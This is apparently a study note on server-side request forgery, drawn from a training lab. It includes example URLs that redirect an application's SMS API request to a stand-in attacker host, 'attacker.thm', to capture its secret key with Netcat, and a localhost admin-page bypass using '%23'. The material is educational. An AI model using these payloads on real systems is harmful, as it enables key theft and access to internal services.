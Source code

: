 # 10. Server-Side Request Forgery (SSRF)

## Server-Side Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png" alt=""><figcaption></figcaption></figure>

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`&#x20;

You could then just capture the contents of the request using Netcat:

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:\


* Enumerate internal networks, including IP addresses and ports.
* Abuse trust relationships between servers and gain access to otherwise restricted services.
* Interact with some non-HTTP services to get remote code execution (RCE).

example:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

in the website the admin page was only accessible from localhost. as you can see we are using ssrf and putting the website's url for that page. the vulnerable server is parsing the value of the server parameter in the SSRF request and using it in a subsequent request to the specified server. By changing the value of the server parameter to localhost:Port/admin%23, the subsequent request is made to the localhost on the specified port, and the admin page is accessed.

The %23 at the end of the URL is URL-encoded #, which is a comment character in URLs. This effectively comments out the \&id=75482342 parameter, which may not be necessary for accessing the admin page.

and we can't remove the \&id=75482342 part of the url becuase that makes our request invalid in the first place.
